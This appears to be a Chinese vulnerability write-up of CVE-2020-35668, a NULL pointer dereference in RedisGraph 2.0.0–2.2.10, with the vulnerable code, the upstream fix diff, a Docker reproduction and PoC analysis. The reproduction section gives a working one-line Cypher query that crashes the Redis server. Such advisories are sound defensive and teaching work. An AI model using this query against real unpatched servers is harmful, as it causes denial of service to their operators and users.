


# CVE-2020-35668 CWE-476 Redis-RedisGraph 空指针解引用

## 漏洞背景

- **Redis**：一个key-value 存储系统，是跨平台的非关系型数据库。开源的内存数据库，提供了一个高性能的键值（key-value）存储系统，常用于缓存、消息队列、会话存储等应用场景。客户端通过套接字与 Redis 服务器通信，发送命令，服务器更改其状态（即其内存结构）以响应此类命令。

- **RedisGraph :** Redis 的一个扩展模块，它将图数据库能力直接嵌入内存缓存：用稀疏矩阵存储节点与边，支持类 SQL 的 Cypher 查询语言，在亚毫秒内完成多跳遍历、路径查找等复杂关系运算，适合社交网络、推荐引擎等实时场景。

- ```txt
  CWE-476: NULL Pointer Dereference
  The product dereferences a pointer that it expects to be valid but is NULL.
  ```

## 漏洞原理

在 RedisGraph 中访问变量之前，系统未能正确验证变量是否已定义。具体来说，在 `_AR_EXP_FromIdentifier` 函数中，如果尝试访问一个尚未构建的抽象语法树（AST），系统会试图访问未初始化的变量，导致空指针引用（NULL pointer dereference），进而导致服务器崩溃。

## 漏洞定位

分析 RedisGraph -2.0.0 源码：

在 /src/arithmetic/arithmetic_expression_construct.c 文件，第 20 行 _referred_entity 函数中，可能在 `ast` 为 `NULL` 的情况下继续访问 AST，这样做会导致空指针引用错误（NULL pointer dereference）

```c
static inline bool _referred_entity(const char *alias) {
	AST *ast = QueryCtx_GetAST();
	return AST_AliasIsReferenced(ast, alias);
}
```

## 漏洞修复

在函数 `_AR_EXP_FromIdentifier` 中，增加了对 `ast`（抽象语法树）为空的检查。这个函数的作用是从标识符表达式中构建一个表达式节点。在访问 `ast` 之前，先检查它是否为 `NULL`。如果是，直接返回一个新的常量节点，并设置错误信息。这避免了在 AST 尚未构建或定义时访问其中的标识符，防止了系统崩溃或不正确的行为。

```c
diff --git a/src/arithmetic/arithmetic_expression_construct.c b/src/arithmetic/arithmetic_expression_construct.c
index 998e83d35f..fca65dc3f8 100644
--- a/src/arithmetic/arithmetic_expression_construct.c
+++ b/src/arithmetic/arithmetic_expression_construct.c
@@ -116,8 +116,14 @@ static AR_ExpNode *_AR_EXP_FromIdentifierExpression(const cypher_astnode_t *expr
 }
 
 static AR_ExpNode *_AR_EXP_FromIdentifier(const cypher_astnode_t *expr) {
-	// check if the identifier is a named path identifier
 	AST *ast = QueryCtx_GetAST();
+	if(ast == NULL) {
+		// Attempted to access the AST before it has been constructed.
+		ErrorCtx_SetError("Attempted to access variable before it has been defined");
+		return AR_EXP_NewConstOperandNode(SI_NullVal());
+	}
+
+	// check if the identifier is a named path identifier
 	AnnotationCtx *named_paths_ctx =
 		AST_AnnotationCtxCollection_GetNamedPathsCtx(ast->anot_ctx_collection);
```

## 影响范围

RedisGraph ：

- 2.0.0 to 2.2.10

## 环境搭建

启动 Docker 环境，RedisGraph  版本为 2.0.0

```txt
NIST:NVD   Base Score:7.5 HIGH   Vector:CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:N/A:H
```

```txt
cpe:2.3:a:redislabs:redisgraph:2.0.0:*:*:*:*:*:*:*
```



## 漏洞复现

1. 进入容器命令行，连接 Redis 并执行 PoC 代码，可以看到容器直接退出

   ```bash
   docker exec -it redis-redisgraph-2.0.0 redis-cli GRAPH.QUERY "myGraph" "CYPHER A=[a] RETURN 5"
   ```

4. 查看容器日志，可以发现 PoC 引发段错误（signal: 11）导致 Redis 崩溃

   ```bash
   docker logs redis-redisgraph-2.0.0
   ```

   

## PoC分析

```bash
GRAPH.QUERY "myGraph" "CYPHER A=[a] RETURN 5"
```

`"CYPHER A=[a] RETURN 5"`：这是 Cypher 查询语言的语句，尝试定义一个路径别名 `A`，其中包含了一个未定义的变量 `[a]`，然后尝试返回一个常数 `5`。`A=[a]`：这里定义了 `A` 作为一个包含元素 `a` 的列表，但 `a` 并未在查询中定义或初始化。按照正常的 Cypher 查询规则，`a` 应该是一个已定义的节点、关系或变量。如果没有定义 `a`，查询会抛出错误。

在 RedisGraph 中，若系统尝试访问尚未定义的变量（如 `a`），它可能会尝试访问一个空指针或者未初始化的内存地址，导致空指针取消引用错误（NULL pointer dereference）。这可能触发系统崩溃或未预期的行为。

## 参考链接

[NVD - CVE-2020-35668](https://nvd.nist.gov/vuln/detail/CVE-2020-35668#range-15118219)

[DoS (Denial Of Service) Bug · Issue #1502 · RedisGraph/RedisGraph](https://github.com/RedisGraph/RedisGraph/issues/1502)

[Error on alias references in parameters by jeffreylovitz · Pull Request #1503 · RedisGraph/RedisGraph](https://github.com/RedisGraph/RedisGraph/pull/1503/commits/5dba254abe97c1bae905a99e63b21a58d3cb4b08)
